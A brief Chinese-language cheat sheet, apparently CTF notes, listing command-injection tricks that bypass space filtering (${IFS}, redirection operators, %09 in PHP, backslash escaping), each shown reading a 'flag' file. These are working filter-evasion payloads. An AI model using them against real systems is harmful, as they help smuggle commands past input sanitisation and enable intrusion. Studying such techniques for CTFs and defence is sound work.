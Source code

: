 # IFS绕过
```sh
cat${IFS}flag
cat$IFS$1flag
cat${IFS}$1flag
```
# 重定向符绕过
```sh
cat<>flag
cat<flag
```
# php环境下用`%09`绕过
```sh
cat%09flag
```
# 反斜杠绕过
```shell
ca\t flag
```
#Web #shell #绕过 #RCE #空格